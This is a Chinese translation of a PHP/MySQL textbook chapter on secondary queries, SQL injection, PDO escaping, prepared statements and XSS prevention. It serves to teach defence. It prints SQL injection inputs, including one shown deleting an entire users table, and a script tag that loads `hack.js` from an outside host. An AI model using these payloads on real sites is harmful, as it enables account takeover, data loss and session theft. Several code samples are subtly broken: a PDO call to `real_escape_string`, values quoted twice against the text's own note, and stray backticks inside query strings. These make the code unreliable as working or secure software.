好了，关于猫的趣味就到此为止。要探索一些稍微复杂的查询，我们需要恢复使用您在第八章中创建的*customers*和*classics*表。*customers*表中将有两位客户；*classics*表包含一些书籍的详细信息。它们还共享一个名为*isbn*的常见列，您可以使用它来执行附加查询。

例如，要显示所有客户以及他们购买的书籍的标题和作者，您可以使用示例 11-15 中的代码。

##### 示例 11-15\. 执行次要查询

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $query  = "`SELECT * FROM customers`";
  $result = $pdo->query($query);

  while ($row = $result->fetch())
  {
    $custname = htmlspecialchars($row['name']);
    $custisbn = htmlspecialchars($row['isbn']);

    echo "$custname purchased ISBN $custisbn: <br>";

    $subquery  = "`SELECT * FROM classics WHERE isbn='``$custisbn``'`";
    $subresult = $pdo->query($subquery);
    $subrow    = $subresult->fetch();

    $custbook  = htmlspecialchars($subrow['title']);
    $custauth  = htmlspecialchars($subrow['author']);

    echo "&nbsp;&nbsp; '$custbook' by $custauth<br><br>";
  }
?>

```

此程序使用对*customers*表的初始查询来查找所有客户，然后根据每个客户购买的书籍的 ISBN，对*classics*表进行新的查询，以查找每本书的标题和作者。此代码的输出应类似于以下内容：

```php
Joe Bloggs purchased ISBN 9780099533474:
  'The Old Curiosity Shop' by Charles Dickens

Jack Wilson purchased ISBN 9780517123201:
  'The Origin of Species' by Charles Darwin

Mary Smith purchased ISBN 9780582506206:
  'Pride and Prejudice' by Jane Austen
```

###### 注意

当然，尽管它不会说明执行附加查询，但在这种特定情况下，您也可以使用`NATURAL JOIN`查询返回相同的信息（参见第八章），如下所示：

```php
SELECT name,isbn,title,author FROM customers
 NATURAL JOIN classics;
```

# 防止黑客攻击

如果您还没有研究过，您可能很难意识到将未经检查的用户输入传递给 MySQL 有多么危险。例如，假设您有一个简单的代码片段来验证用户，看起来像这样：

```php
$user  = $_POST['user'];
$pass  = $_POST['pass'];
$query = "SELECT * FROM users WHERE user='$user' AND pass='$pass'";
```

乍一看，您可能会认为这段代码完全没问题。如果用户为`$user`和`$pass`分别输入`fredsmith`和`mypass`的值，则作为传递给 MySQL 的查询字符串将如下所示：

```php
SELECT * FROM users WHERE user='fredsmith' AND pass='mypass'
```

这一切都很好，但是如果有人为`$user`输入以下内容（甚至不为`$pass`输入任何内容）会怎么样？

```php
admin' #
```

让我们看一下将发送到 MySQL 的字符串：

```php
SELECT * FROM users WHERE user='admin' #' AND pass=''
```

您看到问题了吗？发生了*SQL 注入*攻击。在 MySQL 中，`#`符号表示注释的开始。因此，用户将以*管理员*（假设存在用户*admin*）身份登录，而无需输入密码。以下是将执行的查询部分显示为粗体；其余部分将被忽略。

```php
`SELECT` `*` `FROM` `users` `WHERE` `user``=``'admin'` `#`' AND pass=''
```

但是，如果这只是一个恶意用户对您做的一切，您可以算自己非常幸运。至少您可能仍然可以进入应用程序并撤消用户作为*管理员*所做的任何更改。但是，如果您的应用程序代码从数据库中删除用户呢？代码可能看起来像这样：

```php
$user  = $_POST['user'];
$pass  = $_POST['pass'];
$query = "DELETE FROM users WHERE user='$user' AND pass='$pass'";
```

再次，乍一看，这看起来很正常，但是如果有人为`$user`输入以下内容会怎样？

```php
anything' OR 1=1 #
```

MySQL 将按以下方式解释这个字符串：

```php
`DELETE` `FROM` `users` `WHERE` `user``=``'anything'` `OR` `1``=``1` `#`' AND pass=''
```

噢——由于任何陈述后面跟着的`OR 1=1`都会始终为`TRUE`，所以该 SQL 查询将始终为`TRUE`，因此，由于 # 字符而忽略了其余部分的陈述，您现在失去了整个*用户*数据库！那么对于这种攻击，你能做些什么呢？

## 您可以采取的步骤

首先，不要依赖于 PHP 的内置*魔术引号*，它会自动转义任何字符，例如单引号和双引号，并在它们之前加上反斜杠（`\`）。为什么？因为此功能可以关闭。许多程序员这样做是为了在服务器上放置他们自己的安全代码，并不能保证这在您所使用的服务器上没有发生。实际上，此功能已自 PHP 5.3.0 起不建议使用，并在 PHP 5.4.0 中删除。

相反，正如我们之前展示的那样，你可以使用 PDO 对象的`quote`方法来转义所有字符并用引号包围字符串。示例 11-16 是一个你可以使用的函数，它将删除用户输入字符串中添加的任何魔术引号，然后为您正确地进行了清理。

##### 示例 11-16\. 如何正确清理 MySQL 的用户输入

```php
<?php
  function mysql_fix_string($pdo, $string)
  {
    if (get_magic_quotes_gpc()) $string = stripslashes($string);
    return $pdo->quote($string);
  }
?>
```

如果魔术引号处于活动状态，则`get_magic_quotes_gpc`函数将返回`TRUE`。在这种情况下，必须删除添加到字符串中的任何反斜杠，否则`quote`方法可能会导致一些字符双重转义，从而创建损坏的字符串。示例 11-17 演示了如何在您自己的代码中使用`mysql_fix_string`。

##### 示例 11-17\. 如何安全地使用用户输入访问 MySQL

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $user  = mysql_fix_string($pdo, $_POST['user']);
  $pass  = mysql_fix_string($pdo, $_POST['pass']);
  $query = "`SELECT * FROM users WHERE user=``$user` `AND pass=``$pass`";

  // Etc... 
  function mysql_fix_string($pdo, $string)
  {
    if (get_magic_quotes_gpc()) $string = stripslashes($string);
    return $pdo->quote($string);
  }
?>

```

###### 注意

请记住，由于引号方法会自动在字符串周围添加引号，因此您*不应*在任何使用这些经过清理的字符串的查询中使用它们。因此，在使用以下查询之前：

```php
 $query = "SELECT * FROM users WHERE user=`'``$user``'` AND pass=`'``$pass``'`";
```

您应该输入以下内容：

```php
 $query = "SELECT * FROM users WHERE user=`$user` AND pass=`$pass`";
```

然而，这些预防措施正变得不那么重要，因为有一种更简单和更安全的访问 MySQL 的方法，可以避免这些类型的函数——即使用占位符，下面将对此进行解释。

## 使用占位符

到目前为止，您看到的所有方法都适用于 MySQL，但都存在安全风险，因为字符串需要不断转义以防止安全风险。因此，现在您已经了解了基础知识，让我介绍与 MySQL 交互的最佳和推荐方法，从安全角度来看几乎是防弹的。阅读完本节后，您不应再直接将数据插入 MySQL（尽管重要的是向您展示如何做到这一点），而应始终使用占位符。

那么什么是占位符？它们是准备语句中的位置，其中数据直接传输到数据库，无法将用户提交的（或其他）数据解释为 MySQL 语句（以及可能导致的黑客攻击）。

这项技术要求您首先准备要在 MySQL 中执行的语句，但是保留所有与数据有关的语句部分为简单的问号。

在普通的 MySQL 中，准备语句看起来像示例 11-18。

##### 示例 11-18\. MySQL 占位符

```php
PREPARE statement FROM "INSERT INTO classics VALUES(?,?,?,?,?)";

SET @author   = "Emily Brontë",
    @title    = "Wuthering Heights",
    @category = "Classic Fiction",
    @year     = "1847",
    @isbn     = "9780553212587";

EXECUTE statement USING @author,@title,@category,@year,@isbn;
DEALLOCATE PREPARE statement;
```

这可能对提交到 MySQL 很繁琐，因此`PDO`扩展使您更容易处理占位符，提供了一个名为`prepare`的现成方法，您可以像这样调用它：

```php
$stmt = $pdo->prepare('INSERT INTO classics VALUES(?,?,?,?,?)');
```

该方法返回的对象`$stmt`（简称*statement*）用于将数据发送到服务器，代替问题标记。首次使用是将一些 PHP 变量绑定到每个问题标记（占位符参数）中，如下所示：

```php
$stmt->bindParam(1, $author,   PDO::PARAM_STR, 128);
$stmt->bindParam(2, $title,    PDO::PARAM_STR, 128);
$stmt->bindParam(3, $category, PDO::PARAM_STR, 16 );
$stmt->bindParam(4, $year,     PDO::PARAM_INT     );
$stmt->bindParam(5, $isbn,     PDO::PARAM_STR, 13 );
```

`bindParam`的第一个参数是表示要插入的值在查询字符串中的位置的数字（换句话说，指的是哪个问号占位符），其后是将为该占位符提供数据的变量，然后是变量必须是的数据类型，如果是字符串，还有另一个值指定其最大长度。

当将变量绑定到准备好的语句中时，现在有必要填充它们的数据传递给 MySQL，就像这样：

```php
$author   = 'Emily Brontë';
$title    = 'Wuthering Heights';
$category = 'Classic Fiction';
$year     = '1847';
$isbn     = '9780553212587';
```

此时，PHP 已经拥有执行准备语句所需的一切，因此您可以发出以下命令，调用先前创建的`$stmt`对象的`execute`方法，并将要插入的值作为数组传递：

```php
$stmt->execute([$author, $title, $category, $year, $isbn]);
```

在继续之前，验证命令是否成功执行是有意义的。以下是您如何通过调用`$stmt`的`rowCount`方法来执行验证：

```php
printf("%d Row inserted.\n", $stmt->rowCount());
```

在这种情况下，输出应指示已插入一行。

当你把所有这些结合起来，结果就是示例 11-19。

##### 示例 11-19\. 发出准备语句

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $stmt = $pdo->prepare('INSERT INTO classics VALUES(?,?,?,?,?)');
  $stmt->bindParam(1, $author,   PDO::PARAM_STR, 128);
  $stmt->bindParam(2, $title,    PDO::PARAM_STR, 128);
  $stmt->bindParam(3, $category, PDO::PARAM_STR, 16 );
  $stmt->bindParam(4, $year,     PDO::PARAM_INT     );
  $stmt->bindParam(5, $isbn,     PDO::PARAM_STR, 13 );

  $author   = 'Emily Brontë';
  $title    = 'Wuthering Heights';
  $category = 'Classic Fiction';
  $year     = '1847';
  $isbn     = '9780553212587';

  $stmt->execute([$author, $title, $category, $year, $isbn]);
  printf("%d Row inserted.\n", $stmt->rowCount());
?>

```

每当你能够在非准备语句的地方使用准备语句时，你都将关闭一个潜在的安全漏洞，因此值得花些时间了解如何使用它们。

## 防止 JavaScript 注入到 HTML 中

还有另一种类型的注入需要关注——不是为了您自己网站的安全，而是为了用户的隐私和保护。那就是*跨站脚本攻击*，也称为*XSS 攻击*。

当你允许用户输入 HTML 或者更常见的 JavaScript 代码，并且在你的网站上显示时，这种情况就会发生。一个常见的场景是在评论表单中。最常见的情况是，恶意用户会尝试编写代码，从你网站的用户那里窃取 cookie，甚至可以发现用户名和密码对（如果处理不当），或者其他可能导致会话劫持的信息（即黑客接管用户登录，然后接管该人的账户！）。或者恶意用户可能会发起攻击，下载特洛伊木马到用户的计算机上。

防止这种情况发生就像调用 `htmlentities` 函数一样简单，它会剥离所有的 HTML 标记并用一种显示字符但不允许浏览器执行的形式替换它们。例如，考虑以下 HTML：

```php
<script src='http://x.com/hack.js'></script>
<script>hack();</script>
```

此代码加载一个 JavaScript 程序，然后执行恶意函数。但如果先通过 `htmlentities` 处理，它将变成以下完全无害的字符串：

```php
&lt;script src='http://x.com/hack.js'&gt; &lt;/script&gt;
&lt;script&gt;hack();&lt;/script&gt;
```

因此，如果您要显示用户输入的任何内容，无论是立即显示还是在将其存储到数据库后显示，都需要首先使用 `htmlentities` 函数对其进行清理。为此，建议您创建一个新函数，就像示例 11-20 中的第一个函数一样，可以同时清理 SQL 和 XSS 注入。

##### 示例 11-20\. 用于预防 SQL 和 XSS 注入攻击的函数

```php
<?php
  function mysql_entities_fix_string($pdo, $string)
  {
    return htmlentities(mysql_fix_string($pdo, $string));
  }    

  function mysql_fix_string($pdo, $string)
  {
    if (get_magic_quotes_gpc()) $string = stripslashes($string);
    return $pdo->real_escape_string($string);
  }
?>

```

`mysql_entities_fix_string` 函数首先调用 `mysql_fix_string`，然后将结果通过 `htmlentities` 处理后返回完全清理过的字符串。要使用这两个函数之一，您必须已经有一个活动的连接对象打开到一个 MySQL 数据库。

示例 11-21 展示了示例 11-17 的新“更高保护”版本。这只是示例代码，您需要在看到 `//Etc...` 注释行的地方添加访问返回结果的代码。

##### 示例 11-21\. 如何安全访问 MySQL 并预防 XSS 攻击

```php
<?php
  require_once 'login.php';

  try
  {
    $pdo = new PDO($attr, $user, $pass, $opts);
  }
  catch (PDOException $e)
  {
    throw new PDOException($e->getMessage(), (int)$e->getCode());
  }

  $user  = mysql_entities_fix_string($pdo, $_POST['user']);
  $pass  = mysql_entities_fix_string($pdo, $_POST['pass']);
  $query = "SELECT * FROM users WHERE user='$user' AND pass='$pass'";

  //Etc…

  function mysql_entities_fix_string($pdo, $string)
  {
    return htmlentities(mysql_fix_string($pdo, $string));
  }    

  function mysql_fix_string($pdo, $string)
  {
    if (get_magic_quotes_gpc()) $string = stripslashes($string);
    return $pdo->quote($string);
  }
?>

```

# 问题

1.  如何使用 PDO 连接到 MySQL 数据库？

1.  如何使用 PDO 向 MySQL 提交查询？

1.  什么样的 `fetch` 方法可以用来将行作为按列编号的数组返回？

1.  如何手动关闭 PDO 连接？

1.  在向具有 `AUTO_INCREMENT` 列的表添加行时，该列应传递什么值？

1.  哪个 PDO 方法可以用来正确转义用户输入以防止代码注入？

1.  在访问数据库时确保数据库安全的最佳方法是什么？

请查看“第十一章答案”在附录 A 中查找这些问题的答案。
